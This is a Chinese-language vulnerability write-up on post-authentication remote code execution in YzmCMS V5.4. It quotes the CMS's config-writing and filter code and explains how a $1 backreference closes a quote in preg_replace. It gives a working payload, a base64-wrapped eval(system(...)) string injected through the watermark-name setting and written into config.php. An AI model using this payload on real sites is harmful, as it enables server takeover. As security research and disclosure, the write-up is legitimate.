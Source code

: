 ```yaml
---
title: "YzmCMS V5.4 后台getshell（二）"
id: zhfly3309
---
```


# YzmCMS V5.4 后台getshell（二）

## 一、漏洞简介

## 二、漏洞影响

YzmCMS V5.4

## 三、复现过程

### 漏洞分析

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的`mode`就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改`mode`这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。

![image](../img/b5a6ae60653884d8ad911fb927b8eaaa.png)

该函数位于文件`application/admin/common/function/function.php`

```
function set_config($config) {
    $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
    if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
    $pattern = $replacement = array();
    foreach($config as $k=>$v) {
        $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
        $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
    }
    $str = file_get_contents($configfile);
    $str = preg_replace($pattern, $replacement, $str);
    return file_put_contents($configfile, $str, LOCK_EX);       
} 
```

可以看到，补丁在原来的函数中增加了一行代码，将传入的`$config`中的字符`,`和`$`移除了，而原先就直接经过特定的正则表达式将`config.php`文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有`application/admin/controller/system_manage.class.php`中的`save`

```
public function save() {
        yzm_base::load_common('function/function.php', 'admin');
        if(isset($_POST['dosubmit'])){
            if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
            }
            if(isset($_POST['upload_types'])){
                if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
            }
            $arr = array();
            $config = D('config');
            foreach($_POST as $key => $value){
                if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                    $value = safe_replace(trim($value));
                    $arr[$key] = $value;
                }else{
                    if($key!='site_code'){
                        $value = htmlspecialchars($value);
                    }
                }
                $config->update(array('value'=>$value), array('name'=>$key));
            }
            set_config($arr);
            delcache('configs');
            showmsg(L('operation_success'), '', 1);
        }
    } 
```

在`save`中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过`safe_replace`后传入`set_config`，其他项则是直接在数据库中更新。

`safe_replace`则对一些特殊字符进行了过滤

```
function safe_replace($string) {
    $string = str_replace('%20','',$string);
    $string = str_replace('%27','',$string);
    $string = str_replace('%2527','',$string);
    $string = str_replace('*','',$string);
    $string = str_replace('"','',$string);
    $string = str_replace("'",'',$string);
    $string = str_replace(';','',$string);
    $string = str_replace('<','&lt;',$string);
    $string = str_replace('>','&gt;',$string);
    $string = str_replace("{",'',$string);
    $string = str_replace('}','',$string);
    $string = str_replace('\\','',$string);
    return $string;
} 
```

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含`safe_replace`中的特殊字符，最后value会被拼接成为`preg_replace`中的第二个参数`$replacement`的一部分。而在`$replacement`中用了`${1}`这样的形式来指定上文匹配到的`'`，虽然`{}`被过滤了，但是`$1`实际上是与`${1}`等价的，因此我们通过这种方式闭合单引号，然后`,`也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是`>`是被过滤的，所以我们无法插入`key => value`这样的形式来修改项。不过可以直接插入函数，像`array(0=>1,func())`的形式中，`func`是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。

![image](../img/40af95ef879a119eae49eef244952b07.png)

通过上文的分析我们来构建payload。

将`system('echo 123');`base64_encode以后为`c3lzdGVtKCdlY2hvIDEyMycpOw==`，套一层eval并且闭合单引号后payload为

```
$1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1 
```

先查看配置文件原先的内容

![image](../img/9c63df80564aeff53e02c071ec8e4510.png)

回到页面，`水印图片名称`就是可用的一个配置项，在这个地方写入我们的payload并提交。

![image](../img/3c69f7b635f84cdac075ad0509978ae4.png)

提交以后可以发现已经成功执行命令了

![image](../img/ca3380ae9d91b38def813384674f2060.png)

再回去查看配置文件可以看到代码也写入了

![image](../img/99a296d259da54244bad179bd925298f.png)

## 参考链接

> https://xz.aliyun.com/t/7231#toc-5